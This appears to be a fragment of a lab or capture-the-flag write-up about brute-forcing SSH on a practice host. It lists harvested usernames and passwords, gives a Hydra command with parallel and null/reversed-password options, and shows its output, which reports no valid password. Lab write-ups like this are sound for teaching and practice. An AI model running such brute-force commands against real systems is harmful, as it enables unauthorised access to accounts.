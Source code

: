 ## Brute force attack on the ssh service.

### Lists with found users and passwords.
```
$ cat pass.txt                     
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pass.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ ]F7jLHw:*G>UPrTo}~A"d6b
   2   │ Ezy]m27}OREc$
   3   │ fgJr6q#S\W:$P
   4   │ %n?4Wz}R$tTF7
   5   │ w0rdpr3ss01!
   6   │ Wh3r3_1s_w4ld0?
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

$ cat users.txt 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: users.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ waldo
   2   │ waldo.11
   3   │ admin
   4   │ w.cooper
   5   │ p.wise
   6   │ penny
   7   │ rajesh
   8   │ r.nayyar
   9   │ amy
  10   │ a.bialik
  11   │ leonard
  12   │ l.galecki
  13   │ howard
  14   │ h.helberg
  15   │ bernadette
  16   │ b.rauch
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

```
hydra -L "users.txt" -P "passwords.txt" -t 4 -e nsr -s 22 ssh://10.10.10.187 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-27 18:49:29
[DATA] max 4 tasks per 1 server, overall 4 tasks, 153 login tries (l:17/p:9), ~39 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[STATUS] 97.00 tries/min, 97 tries in 00:01h, 56 to do in 00:01h, 4 active
1 of 1 target successfully completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-27 18:51:05
```
- -t 4 tasks number of connects in parallel.
- -e nsr try "n" null password, "s" login as pass and/or "r" reversed login.
